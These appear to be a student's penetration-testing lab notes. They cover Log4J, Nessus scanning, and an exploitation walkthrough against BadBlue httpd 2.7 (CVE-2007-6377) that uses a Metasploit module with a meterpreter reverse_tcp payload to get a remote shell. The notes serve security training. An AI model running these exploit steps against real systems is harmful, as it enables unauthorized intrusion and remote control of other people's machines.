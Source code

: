![](Images/Log4JAnatomy4.png)
+ Would need to spin up a malicious LDAP server to return the malicious code

## Lab 1 (Nessus Lab) ##

Nessus is a very useful scanners to report vulnerabilities, and will direct you to the CVEs to do more research 
+ If in scope it might make sense to get a proof of concept by actually doing an exploit on the vulnerability


## Lab 2 (Easy File Sharing Server) ##

Came across a server with an OS of `Windows Server 2008`, and a web server of port 80 running `BadBlue httpd 2.7`
+ BadBlue looks to be a file server with the ability to upload files
+ Googling it brings us to a NIST page: https://nvd.nist.gov/vuln/detail/CVE-2007-6377
  + stack based buffer overflow possible, allowing attackers to execute arbitrary code via a long query string
+ Will take us to <r>exploit-db</r> and can use an exploit from there

### Exploit ###

In this case, <r>msfconsole</r> has a vulnerability 
+ Will `search badblue 2.7`
+ can `use exploit/windows/http/badblue_passthru`
+ `set rhosts IP`
+ `set payload windows/meterpreter/reverse_tcp`
+ `set lhost eth1`
+ once in meterpreter, type `shell`

Now have a reverse shell
+ Can do whatever we want from there

<style>
r { color: Red; font-weight: bold}
o { color: Orange; font-weight: bold }
g { color: LightGreen; font-weight: bold }
b { color: darkCyan; font-weight: bold}
pu { color: purple; font-weight: bold}
</style>